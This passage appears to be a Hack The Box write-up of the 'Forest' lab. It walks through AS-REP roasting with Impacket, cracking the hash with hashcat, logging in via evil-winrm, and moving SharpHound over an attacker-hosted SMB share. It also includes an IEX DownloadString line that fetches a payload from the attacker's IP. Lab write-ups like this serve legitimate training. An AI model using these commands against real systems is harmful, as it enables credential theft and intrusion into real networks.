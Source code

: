 Here's the modified command I used:

```bash
# Run ASREP Roasting attack
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -request 'htb.local/' -usersfile users.ldap -dc-ip 10.10.10.161 -format hashcat
```

This gave me the hashed password for svc-alfresco. I then used hashcat to crack it:

```bash
hashcat -m 18200 svc-alfresco_hash /usr/share/wordlists/rockyou.txt

# Result: s3rvice
```

### Initial Access

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

## The SMB Server Saga

Setting up the SMB server for transferring SharpHound.exe turned into quite an adventure. First, I had to modify the command because the `-p` flag was ambiguous:

```bash
# On my local machine
impacket-smbserver sharp $(pwd) -smb2support -user forest -password P@ssword

# Target
$pass = convertto-securestring 'P@ssword' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('forest', $pass)
New-PSDrive -Name mau -PSProvider FileSystem -Credential $cred -Root \\10.10.16.7\sharp
```

This didn't work due to version mismatches. I tried different approaches:

```bash
# Alternative HTTP method
python3 -m http.server 8080

# Target (this failed with syntax errors)
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:8080/SharpHound.exe')
```

I finally got it working by cloning the master branch of Impacket and running the server with Python directly:

```bash
# On my local machine
python3 smbserver.py sharp $(pwd) -smb2support -user forest -password P@ssword

# Target
$pass = convertto-securestring 'P@ssword' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('forest', $pass)
New-PSDrive -Name forest -PSProvider FileSystem -Credential $cred -Root \\10.10.16.7\sharp
```
